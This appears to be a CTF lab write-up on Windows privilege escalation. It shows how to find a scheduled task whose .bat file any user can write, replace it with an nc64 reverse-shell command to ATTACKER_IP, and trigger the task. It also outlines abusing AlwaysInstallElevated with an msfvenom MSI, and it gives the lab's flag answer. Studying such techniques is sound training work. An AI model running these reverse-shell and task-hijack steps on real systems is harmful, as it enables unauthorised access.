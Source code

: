 ```
## Task 4: Other Quick Wins
This task is all about abusing Task Scheduler tasks that have been configured to run an executable file that we can change to run a netcat reverse shell.

Privilege escalation can be facilitated through misconfigurations, such as those found in scheduled tasks or Windows installer files. These techniques are often more relevant in Capture The Flag (CTF) events than real penetration testing engagements.
1. Scheduled Tasks:
  - Misconfigured Task: A scheduled task may run a binary you can modify. You can list tasks with schtasks /query and check the file permissions using icacls.
  - Privilege Escalation: If a scheduled task’s executable is accessible, modify it to execute a reverse shell. For example, replace the task’s binary with a command to spawn a reverse shell using nc64.exe.
  - Triggering the Task: Once the task is modified, use schtasks /run to manually execute it and get a reverse shell with the user privileges of the scheduled task.
2. AlwaysInstallElevated:
  - Windows Installer: MSI files can be set to run with elevated privileges if registry keys are configured. This allows unprivileged users to run an MSI that executes with administrator rights.
  - Registry Check: Use reg query to check if the necessary registry keys are set. If they are, generate a malicious MSI file using msfvenom and execute it with msiexec to get a reverse shell.
### Q: What is the taskusr1 flag?
Let’s start by getting info on the scheduled task called “vulntask”. run the command in powershell: ```schtasks /query /tn vulntask /fo list /v```
![Finding info by vulntask](images/task_to_run.png)

As discussed in the task description, we can edit the file if have the correct permissions. To check the permission, run the following command: ```icacls c:\tasks\schtask.bat```

![See the permissions](images/icacls_schtask.bat.png)

We have correct permission. As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the **.bat** file and insert any payload we like.

Now all we need to do is **echo** the nc64 command to the **schtask.bat** file to overwrite its content in **cmd**. Remember to change the ip of local machine: 

```echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat```

And setup a listener on your attacker machine: ```nc -lvnp 4444```

Finally, run the scheduled task with: ```schtasks /run /tn vulntask```

![scheduled task](images/cmd_exc.png)

yes, we got a connection:

![connected in netcat](images/got_nc_connection.png)

Now we've to find the flag:

![Flag](images/flag_text.png)

#### Answer: THM{TASK_COMPLETED}

## Task 4: Abusing Service Misconfigurations

This part covers three different service misconfigurations, and each vulnerability has a question related to it.

```